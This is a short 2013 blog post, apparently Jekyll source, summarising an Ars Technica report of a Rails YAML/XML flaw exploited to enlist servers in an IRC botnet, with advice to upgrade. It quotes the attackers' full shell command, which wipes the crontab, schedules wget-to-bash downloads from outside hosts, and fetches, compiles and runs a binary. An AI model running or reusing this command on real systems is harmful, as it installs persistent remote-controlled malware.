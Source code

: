 ```yaml
---
layout: post
title:  "Ars Technica Article"
date:   2013-06-06 13:01:00
comments: true
categories: article
---
```


#### Critical Ruby on Rails bug exploited in wild, hacked servers join botnet

On May 28, 2013 an article on [Ars Technica][arstech] reported a malicious Rails bug that inflatrated any server running Rails 2.3.15 and lower. The attackers exploited a flaw in YAML and the rails Symbol type conversion XML parser. Attackers used hyjacked machines to create IRCbots to flood the #rails IRC channel.

Attackers used a unix command similar to this:
{% highlight bash %}
  crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
{% endhighlight %}

Rails admins are advised to update to the latest version of Rails (4) or use [these][google] work arounds to avoid this vulnerability. 

[arstech]: http://arstechnica.com/security/2013/05/critical-ruby-on-rails-bug-exploited-in-wild-hacked-servers-join-botnet/
[google]: https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion
